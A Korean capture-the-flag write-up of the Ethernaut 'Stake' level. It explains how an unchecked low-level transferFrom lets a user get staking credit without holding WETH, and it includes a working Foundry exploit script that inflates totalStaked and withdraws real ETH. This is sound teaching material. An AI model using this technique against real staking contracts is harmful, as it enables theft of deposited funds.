

## 문제
### 지문
Stake is safe for staking native ETH and ERC20 WETH, considering the same 1:1 value of the tokens.
Can you drain the contract?
To complete this level, the contract state must meet the following conditions:
The Stake contract's ETH balance has to be greater than 0.
totalStaked must be greater than the Stake contract's ETH balance.
You must be a staker.
Your staked balance must be 0.
Things that might be useful:
ERC-20 specification.
OpenZeppelin contracts
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Stake {

    uint256 public totalStaked;
    mapping(address => uint256) public UserStake;
    mapping(address => bool) public Stakers;
    address public WETH;

    constructor(address _weth) payable{
        totalStaked += msg.value;
        WETH = _weth;
    }

    function StakeETH() public payable {
        require(msg.value > 0.001 ether, "Don't be cheap");
        totalStaked += msg.value;
        UserStake[msg.sender] += msg.value;
        Stakers[msg.sender] = true;
    }
    function StakeWETH(uint256 amount) public returns (bool){
        require(amount >  0.001 ether, "Don't be cheap");
        (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
        require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
        totalStaked += amount;
        UserStake[msg.sender] += amount;
        (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));
        Stakers[msg.sender] = true;
        return transfered;
    }

    function Unstake(uint256 amount) public returns (bool){
        require(UserStake[msg.sender] >= amount,"Don't be greedy");
        UserStake[msg.sender] -= amount;
        totalStaked -= amount;
        (bool success, ) = payable(msg.sender).call{value : amount}("");
        return success;
    }
    function bytesToUint(bytes memory data) internal pure returns (uint256) {
        require(data.length >= 32, "Data length must be at least 32 bytes");
        uint256 result;
        assembly {
            result := mload(add(data, 0x20))
        }
        return result;
    }
}
```
## 배경지식
<hr />
ERC20에서 `approve(spender, amount)`는 `spender`가 내 토큰을 `amount`만큼 가져갈 수 있도록 허용하는 함수다. 이 값은 `allowance(owner, spender)`로 조회할 수 있다.
그 다음 `spender`가 `transferFrom(owner, to, amount)`를 호출하면, `owner`의 토큰을 `to`로 옮긴다. 단 `allowance`가 충분하더라도 `owner`의 실제 토큰 잔고가 부족하면 `transferFrom`은 실패한다.
`allowance`는 권한이고, 실제 잔고는 별도 조건이다. 이 둘을 분리해서 봐야 한다.
<hr />
Solidity에서 일반적인 인터페이스 호출은 대상 함수가 revert하면 현재 트랜잭션도 같이 revert된다. 반면 저수준 `call`은 호출 성공 여부를 `bool`로 돌려준다.
```solidity
(bool success, bytes memory data) = target.call(payload);
```
여기서 `success == false`여도 직접 `require(success)`를 하지 않으면 현재 함수는 계속 실행된다. 따라서 저수준 `call`을 쓸 때는 반환된 `success`를 반드시 확인해야 한다.
`StakeWETH`는 `transferFrom`이 실패해도 이미 증가시킨 `totalStaked`와 `UserStake`를 되돌리지 않는다.
## 문제 코드 분석
<hr />
먼저 완료 조건부터 보자.
1. `address(Stake).balance > 0`
2. `totalStaked > address(Stake).balance`
3. `Stakers[msg.sender] == true`
4. `UserStake[msg.sender] == 0`
겉으로 보면 컨트랙트의 ETH를 모두 빼야 할 것 같지만, 실제 검증 조건은 ETH 잔고가 0보다 커야 한다. 마지막에는 Stake 컨트랙트에 1 wei라도 남아 있어야 한다.
<hr />
이제 `StakeETH`와 ETH 잔고를 보자.
```solidity
function StakeETH() public payable {
    require(msg.value > 0.001 ether, "Don't be cheap");
    totalStaked += msg.value;
    UserStake[msg.sender] += msg.value;
    Stakers[msg.sender] = true;
}
```
`StakeETH`는 실제 ETH를 받기 때문에 `address(Stake).balance`와 `totalStaked`가 같이 증가한다. 이 함수만 사용하면 `totalStaked`와 ETH 잔고 사이에 차이를 만들 수 없다.
하지만 마지막 조건 때문에 Stake 컨트랙트 안에는 ETH가 조금 남아 있어야 한다. 이 ETH를 내 주소로 직접 넣으면 `UserStake[msg.sender]`도 같이 증가해서 나중에 0으로 맞춰야 한다. 그래서 별도의 `tmp` 컨트랙트 주소로 ETH를 넣어두면, 내 주소의 `UserStake`에는 영향을 주지 않고 Stake 컨트랙트의 ETH 잔고만 확보할 수 있다.
<hr />
다음으로 `StakeWETH`의 상태 업데이트 순서를 보자.
```solidity
function StakeWETH(uint256 amount) public returns (bool){
    require(amount >  0.001 ether, "Don't be cheap");
    (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
    require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
    totalStaked += amount;
    UserStake[msg.sender] += amount;
    (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));
    Stakers[msg.sender] = true;
    return transfered;
}
```
`0xdd62ed3e`는 `allowance(address,address)`의 selector다. 즉 이 코드는 `allowance(msg.sender, address(this))`를 저수준 호출로 조회한다.
```solidity
WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender, address(this)))
```
그 다음 `bytesToUint(allowance) >= amount`만 확인한다. 여기서 확인하는 것은 실제 WETH 잔고가 아니라, 내가 Stake 컨트랙트에 허용한 allowance다.
문제는 그 다음 순서다.
```solidity
totalStaked += amount;
UserStake[msg.sender] += amount;
(bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));
Stakers[msg.sender] = true;
return transfered;
```
`totalStaked`와 `UserStake`를 먼저 증가시키고, 그 뒤에 `transferFrom`을 호출한다. `0x23b872dd`는 `transferFrom(address,address,uint256)`의 selector다.
만약 내 WETH 잔고가 부족하면 `transferFrom`은 실패한다. 하지만 저수준 `call`이라서 `transfered == false`가 될 뿐이고, 이 함수는 revert하지 않는다. 게다가 `transfered`를 `require`로 검사하지도 않는다.
WETH가 실제로 이동하지 않아도 다음 상태가 만들어진다.
1. `totalStaked += amount`
2. `UserStake[msg.sender] += amount`
3. `Stakers[msg.sender] = true`
4. Stake 컨트랙트의 ETH 잔고는 그대로
즉 `totalStaked`를 실제 ETH 잔고보다 크게 만들 수 있다.
<hr />
마지막으로 `Unstake`와 남는 `Stakers` 상태를 보자.
```solidity
function Unstake(uint256 amount) public returns (bool){
    require(UserStake[msg.sender] >= amount,"Don't be greedy");
    UserStake[msg.sender] -= amount;
    totalStaked -= amount;
    (bool success, ) = payable(msg.sender).call{value : amount}("");
    return success;
}
```
`Unstake`는 `UserStake[msg.sender]`와 `totalStaked`를 줄인 뒤, `msg.sender`에게 ETH를 전송한다. 여기서도 ETH 전송 결과인 `success`를 반환만 하고 `require(success)`를 하지 않는다.
이번 풀이에서는 Stake 컨트랙트에 `amount + 1 wei`를 미리 넣어두기 때문에, `Unstake(amount)`의 ETH 전송은 성공한다. 그러면 내 `UserStake`는 0이 되고, Stake 컨트랙트에는 1 wei가 남는다.
`Unstake`는 `Stakers[msg.sender]`를 `false`로 바꾸지 않는다. 따라서 `StakeWETH`로 한 번 `Stakers[msg.sender] = true`를 만든 뒤 `Unstake`로 `UserStake`를 0으로 낮춰도, 나는 여전히 staker로 남는다.
## 풀이
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";

interface IStake {
    function StakeETH() external payable;
    function StakeWETH(uint256 amount) external returns (bool);
    function Unstake(uint256 amount) external returns (bool);
    function WETH() external view returns (address);
}

interface IERC20 {
    function approve(address spender, uint256 amount) external returns (bool);
}

contract tmp {
    constructor(address _addr) payable {
        IStake(_addr).StakeETH{value: msg.value}();
    }
}

contract Attack is Script {
    function run() external {
        uint256 p = vm.envUint("PRIVATE_KEY");
        address stakeaddr= vm.envAddress("STAKE_INSTANCE");
        IStake stake = IStake(stakeaddr);
        IERC20 weth = IERC20(stake.WETH());
        uint256 amount = 0.0011 ether;
        vm.startBroadcast(p);
        new tmp{value: amount + 1 wei}(stakeaddr);
        weth.approve(stakeaddr, amount);
        stake.StakeWETH(amount);
        stake.Unstake(amount);
        vm.stopBroadcast();
    }
}
```

